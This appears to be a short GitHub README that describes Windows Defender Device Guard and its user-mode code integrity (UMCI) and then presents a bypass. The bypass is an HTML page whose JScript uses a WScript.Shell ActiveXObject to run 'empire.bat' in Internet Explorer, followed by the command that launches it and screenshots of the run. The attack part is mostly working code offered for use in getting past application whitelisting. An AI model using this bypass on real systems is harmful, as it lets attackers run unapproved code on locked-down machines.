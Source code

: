 # what is ! Windows Defender Device Guard !
------------------------------------------------
Windows Defender Device Guard is a combination of enterprise-related hardware and software security features that, when configured together, will lock a device down so that it can only run trusted applications that you define in your code integrity policies. If the app isn’t trusted it can’t run, period. With hardware that meets basic requirements, it also means that even if an attacker manages to get control of the Windows kernel, he or she will be much less likely to be able to run malicious executable code. With appropriate hardware, Windows Defender Device Guard can use the new virtualization-based security in Windows 10 (available in Enterprise and Education desktop SKUs and in all Server SKUs) to isolate the Code Integrity service from the Microsoft Windows kernel itself. In this case, the Code Integrity service runs alongside the kernel in a Windows hypervisor-protected container.
This guide explores the individual features in Windows Defender Device Guard as well as how to plan for, configure, and deploy them. It includes:


##
what is UMCI
----------------------------
 UMCI prevents unapproved binaries from executing, restricts the Windows Scripting Host, and places PowerShell in Constrained Language mode. This makes obtaining code execution on a system fairly challenging. This post is going
 
======================================================================||>

bypass UMCI In Enternet Explorer by Jscript ! 
---


####
Let's go a code bypass show

======================================================================||>

```
<html>
  <body>
    <script type="text/jscript">
      var r = new ActiveXObject("WScript.Shell").Run("empire.bat");
    </script>
   </body>
</html>
```



======================================================================||>

```
PS:>  C:\Users\Homjxie> cmd /C "C:\Program Files\Internet Explorer\iexplore.exe " "C:\Users\Homjxie\Desktop\Homjxie.html"
```


## Modify Code Jscript ! 
![screenshot from 2017-08-25 11-55-12](https://user-images.githubusercontent.com/25440152/29715018-7d585292-8973-11e7-8126-f2e946dbb52f.png)
======================================================================||>


##### Next Run bypass 
![screenshot from 2017-08-25 11-56-01](https://user-images.githubusercontent.com/25440152/29715057-a762c5c2-8973-11e7-84b7-ca7a68b96cf8.png)
---
======================================================================||>
======================================================================||>


# Author explanation 
[@Matt Homjxi0e](https://twitter.com/GihadAlkmaty)
-----
# Author Bypass
[@enigma0x3](https://twitter.com/enigma0x3)
-----
